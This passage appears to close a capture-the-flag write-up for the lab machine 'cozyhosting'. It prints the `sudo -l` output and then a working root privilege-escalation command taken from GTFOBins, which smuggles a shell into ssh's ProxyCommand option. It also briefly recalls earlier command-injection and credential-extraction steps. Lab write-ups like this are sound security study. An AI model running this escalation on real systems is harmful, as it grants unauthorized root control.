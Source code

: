 
To esclate privileges, first the command `sodo -l` was run and the output is as follows:


```bash
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```


"josh" is able to run the ssh command as the super user. In order to exploit this, the website "GTFObins" was used. The website "GTFObins" catalogs Linux system binaries that can be exploited to bypass local security restrictions and escalate privileges.


Searching for ssh on the website, the site: https://gtfobins.github.io/gtfobins/ssh/#sudo, shows how the ssh binary can be exploited if "sudo" privileges are available. The user can escalate privileges by just running the command displayed on the site:

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
root@cozyhosting:/home/josh# python3 -c "import pty; pty.spawn('/bin/bash')"
root@cozyhosting:/home/josh# whoami
root
```


This command spawns a new shell as the root user, hence, allowing the root.txt file to be read.


Overall, I found the box was relatively more difficult to exploit as it required knowledge of multiple areas. This required to be much more thorough in my research in understanding how JSESSIONIDs worked in the context of Spring Boot applications. Upon visiting the admin panel, my ability to craft OS command injection payloads was tested as it took some experimentation to uncover the right payload. After this an understanding of Jar files and Spring Boot applications was needed to find the database credentials, however, the steps to escalate privileges were straight forward.